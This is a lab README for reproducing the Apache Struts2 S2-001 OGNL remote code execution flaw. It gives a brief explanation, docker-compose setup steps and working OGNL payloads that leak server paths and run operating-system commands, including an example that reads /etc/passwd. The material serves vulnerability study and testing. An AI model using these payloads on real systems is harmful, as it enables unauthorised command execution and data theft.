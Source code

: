 # S2-001 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

## Reference link

[http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

> The vulnerability is that when the user submits the form data and the validation fails, the server parses the parameter values previously submitted by the user with the OGNL expression `%{value}` and repopulates the corresponding form data.For example, in the registration or login page. When submit fail, server will generally return the previously submitted data by default. Since the server uses `%{value}` to execute an OGNL expression parsing on the submitted data, it can send payload directly to execute command.

## Environment setup

Run the following commands to setup

```
docker-compose build
docker-compose up -d
```

## POC && EXP

Get the tomcat path:

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

Get the web site real path:

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

Execute command (command with parameter:`new java.lang.String[]{"cat","/etc/passwd"}`):

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![](1.jpeg)
